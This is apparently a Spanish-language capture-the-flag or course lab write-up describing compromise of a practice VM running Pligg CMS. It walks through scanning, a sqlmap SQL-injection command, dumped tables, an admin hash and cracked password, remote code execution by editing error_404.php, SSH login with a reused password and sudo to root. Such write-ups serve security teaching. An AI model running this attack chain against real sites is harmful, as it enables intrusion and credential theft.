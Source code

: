 # Ejercicio 2

Una vez montada la VM, lo primero que hicimos fue correr `nmap` para ver con que puertos podiamos trabajar. Las respuestas a estos comandos se encuentran en la carpeta `nmap`.

De aqui podemos ver que tenemos 4 puertos disponibles en la VM:

- Un servidor ftp en el puerto 21
- Un servidor ssh en el puerto 22
- Un servidor http en el puerto 80 y 8000

Mas aun, el servidor en el puerto 80 parece tener varias cosas dentro, asi que decidimos mirar ese primero

Tenemos 3 cosas para mirar, `nasa`, `pligg` y `important`

En este momento tiramos 3 scannings con `nikto` para ver si descubriamos algo en `/`, `/pligg` o `/nasa`. Los logs se encuentran en la carpeta `nikto_logs`

Lo que podemos ver es que `nikto` cree que `/` es vulnerable a path-traversal, pero en realidad siempre se devuelve el contenido de `/`

Por otra parte, en `nasa`, `nikto` encontro varios directorios que parecieran venir por default en `wordpress`. Pensamos que `/nasa/wp-content/uploads/` nos llevaria a algo, pero no. Solamente tiene algunos archivos sin tanta importancia. No obstante, no me parece bueno que se pueda acceder a esas uploads en caso de que puedan contener informacion sensitiva.

El mas interesante es `pligg`, encontramos varios directorios y archivos, ademas de un `.gitignore`. De todas maneras esto no nos llevo a nada, pero es la pagina con la que mas podemos interactuar despues de todo.

Despues de jugar un poco con la pagina, tocar los links, encontrar un user `barack`, etc. vimos que `pligg` es una tecnologia en si (CMS). 

Nunca escuchamos hablar de tal, asi que me imaginamos que, o era viejo, o era poco popular, asi que ahi fuimos a `exploit-db` a ver si aparecia algo

Efectivamente
```
https://www.exploit-db.com/exploits/38577
```
nos explica que pligg en la version <= 2.0.2 es vulnerable a SQL injection, por varias vias

La verdad no sabiamos la version del pligg de la VM, pero no se perdia nada en probar

Lo pusimos directamente en `sqlmap` haciendo

```
sqlmap -u "http://172.18.1.68/pligg/story.php?title=secret-war&reply=1&comment_id=1" --dbs
```

y como consecuencia tenemos las bases de datos

```
[*] base_de_pepe
[*] information_schema
```

y las tablas

```
+-----------------------------+
| pligg_additional_categories |
| pligg_categories            |
| pligg_comments              |
| pligg_config                |
| pligg_formulas              |
| pligg_friends               |
| pligg_group_member          |
| pligg_group_shared          |
| pligg_groups                |
| pligg_links                 |
| pligg_login_attempts        |
| pligg_messages              |
| pligg_misc_data             |
| pligg_modules               |
| pligg_old_urls              |
| pligg_redirects             |
| pligg_saved_links           |
| pligg_tag_cache             |
| pligg_tags                  |
| pligg_totals                |
| pligg_trackbacks            |
| pligg_users                 |
| pligg_votes                 |
| pligg_widgets               |
+-----------------------------+
```

y al usuario `barack`
```
email:hash:role
bobama@nsa.gov.us:1bf490bb34c2383ac91e67505741b9cdad3b9bee87e62ba98:admin
```

Al parecer es el admin de la pagina, junto con el hecho de haber encontrado esto
```
https://github.com/jenaye/pligg
```
Nos da una clara via para conseguir RCE si logramos crackear el hash.

Despues de mucho investigar, el hash tiene el siguiente tipo (primero 9 caracteres forman la salt):
```
SHA1(salt.hash)
4c2383ac91e67505741b9cdad3b9bee87e62ba98:1bf490bb3
```
Esto fue verificado ya que me cree un usuario mio con la password `asdasd`, consegui el hash, y me auto crackie

Estaba dificil de todas maneras crackear el hash, pero con el *hint* pudimos lograrlo corriendo:

```
PUM
```

Password is `obamaobamaobama`!!

Una vez hecho esto, ya podia causar RCE. Lo que hice fue simplemente cambiar la pagina de `error_404.php` para que me corriera un comando (el codigo que mande puede verse en el archivo `error_404.php`). Jugando un poco pude leer los usuarios, de los cuales me llamaron la atencion 2 `obama` y `michelle`.

En ese momento probe usar la password en SSH, que habiamos visto antes que estaba abierto, y efectivamente, el muchacho `obama` reutilizo su password para acceder por SSH.

Una vez adentro, vemos que `obama` puede correr cualquier cosa si usa `sudo`

```
sudo -l
Matching Defaults entries for obama on server:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User obama may run the following commands on server:
    (ALL : ALL) ALL
```

Habra reutilizado `obama` una vez mas su password para `sudo`? Indeed... \*facepalm\*

`sudo -i`

Este es el contenido de `root.txt`

```
 _________________________________________
/ Congratulations, you win the Soft.      \
| Aplicativo's contest... The secret      |
| token is:                               |
| 7091996b0ccbb6c6145dca439f44cbe3c6c757e |
\ 476241d1cc64ec3dcf0f722fb               /
 -----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Las vulnerabilidades de `pligg` no fueron resueltas por los fabricantes, asi que no tiene solucion. Esto ya nos asegura podes spawnear un `shell` con el usuario `www-data` en la VM (se que es `www-data` porque lo probe).

Si `obama` fuera mas precavido y no reusara sus passwords, tendriamos que ver como escalar privilegios con ese usuario.